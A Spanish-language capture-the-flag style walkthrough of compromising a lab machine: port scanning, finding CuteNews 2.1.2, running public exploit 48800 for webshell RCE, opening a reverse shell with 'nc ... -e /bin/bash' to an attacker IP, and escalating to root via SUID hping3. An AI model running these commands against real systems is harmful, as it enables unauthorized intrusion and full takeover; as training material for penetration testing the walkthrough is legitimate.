Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 192.168.196.128 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Ojo, puertos interesantes, especialmente ese 88. Vamos a escanear qué servicios y versiones están corriendo para estos puertos.

``nmap 192.168.196.128 -sCV -p -oN target``



Vale, falsa alarma, ese p88 no es Kerberos. Tenemos SSH, http y pop3 (con y sin SSL).

Vamos a comenzar echando un vistazo a nivel de navegador. No se encuentra nada interesante, por lo que vamos a hacer fuerza bruta de directorios.

``feroxbuster -u http://192.168.196.128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 150 -x php,html,sh,txt, -C 400,404,500,503 -o scan80.txt``



Muy interesante. Se encuentra un index.php. Si indagamos un poco, vemos:



Ojo, tenemos tecnología y versión: CuteNews 2.1.2. Además, coincide parcialmente con el nombre de la máquina, por lo que parece que vamos bien.

Si buscamos exploits públicos para esta tecnología y versión, vemos:

``searchsploit cute news 2.1.2``



Ojo, RCE para esta tecnología y versión. 

https://www.exploit-db.com/exploits/48800

Si echamos un vistazo al código del exploit, parece que hace básicamente lo siguiente: se registra como un usuario nuevo, sube un avatar que en realidad es una webshell en php, y después permite ejecutar comandos desde la terminal enviándolos por POST.

Vamos a probar. Nos lo traemos a nuestro directorio de trabajo.

``searchsploit -m 48800.py``



Le damos permisos de ejecución:

``chmod +x 48800.py``

Antes de ejecutarlo, tenemos que fijarnos que hay rutas en el código que puede que no existan a nivel del servidor:

- IP/CuteNews/cdata/users/ no existe



- Pero IP/cdata/users, sí:



Y lo mismo para todas aquellas rutas que partan de IP/CuteNews (como /uploads o /index.php), por lo que modificamos el código y lo adaptamos a nuestro escenario. Es decir, borramos la parte "CuteNews" de la url, puesto que el servidor web, en este caso, no contempla esa ruta.

``nano 48800.py``









Una vez lo tenemos preparado, ejecutamos:

``python3 48800.py``

-> Introducimos la URL



Y nos permite ejecutar comandos de forma remota:



Para mayor estabilidad, vamos a mandarnos una revshell.

- Primero nos ponemos en escucha desde máquina atacante:
  
``nc -nlvp 4444``

- Nos mandamos reverse shell al puerto previamente levantado:

``nc 192.168.45.210 4444 -e /bin/bash``

- Si revisamos el listener:



Estamos dentro como www-data.

Hacemos un tratamiento de la TTY y recogemos la flag de user en /var/www:

``whoami && ip addr && cat local.txt``



# PRIVESC

Se prueban diferentes escaladas básicas de Linux, pero al observar los permisos SUID en binarios, encontramos:



No es común que el binario hping3 tenga permisos SUID. Vamos a echar un vistazo a GTFObins:

https://gtfobins.github.io/gtfobins/hping3/#suid



``hping3``

``/bin/sh -p``



Hemos escalado correctamente a root.

En /root encontramos la flag de root.

``whoami && ip addr && cat proof.txt``


